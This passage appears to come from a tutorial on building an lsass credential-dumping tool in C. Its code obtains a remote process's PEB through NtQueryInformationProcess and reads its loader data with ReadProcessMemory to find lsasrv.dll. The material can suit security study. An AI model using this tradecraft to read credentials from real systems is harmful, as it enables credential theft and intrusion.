 ```c
		return false;
	}
	printf("pointing pPEB\n");

	*pPEB = pProcBasicInfo.PebBaseAddress;  // remote PEB address>????
	printf("pPEB pointed???????\n");
	return true;
}
```

Similar to when we found lsass we're pulling a function out of ntdll, `NtQueryInformationProcess`.

```c
NTSTATUS NtQueryInformationProcess(
    HANDLE ProcessHandle,
    PROCESSINFOCLASS ProcessInformationClass,
    PVOID ProcessInformation,
    ULONG ProcessInformationLength,
    PULONG ReturnLength
);
```


When we specify `ProcessInformationClass` we're telling the function to retrieve basic information about the target process. This information is stored within the `PROCESS_BASIC_INFORMATION`

```c
typedef struct _PROCESS_BASIC_INFORMATION {
    NTSTATUS ExitStatus;
    PPEB PebBaseAddress;
    ULONG_PTR AffinityMask;
    KPRIORITY BasePriority;
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```

Which contains a pointer to the PEB structure!

## Module Comparison

Now that we have the PEB address we can begin enumerating the modules loaded by the processes to find lsasrv.dll


First we start by specifying our `PEB_LDR_DATA` structure which contains our head `LIST_ENTRY` for the loaded modules.
```c
bool findLsasrv(HANDLE hTarget, PEB peb, PVOID* pTargetModuleBase, ULONG* pSize) {
	*pTargetModuleBase = NULL;
	printf("In NTLM\n");

	wprintf(L"SEARCHING FOR: %s\n", wTargetDLL);

	// 3) Read remote PEB_LDR_DATA
	PEB_LDR_DATA ldr = { 0 };
	printf("In NTLM\n");
	if (!ReadProcessMemory(hTarget, peb.Ldr, &ldr, sizeof(ldr), NULL)) {
		printf("LDR\n");
		return FALSE;
	}
	printf("retrieved remote head entry addr\n");
```
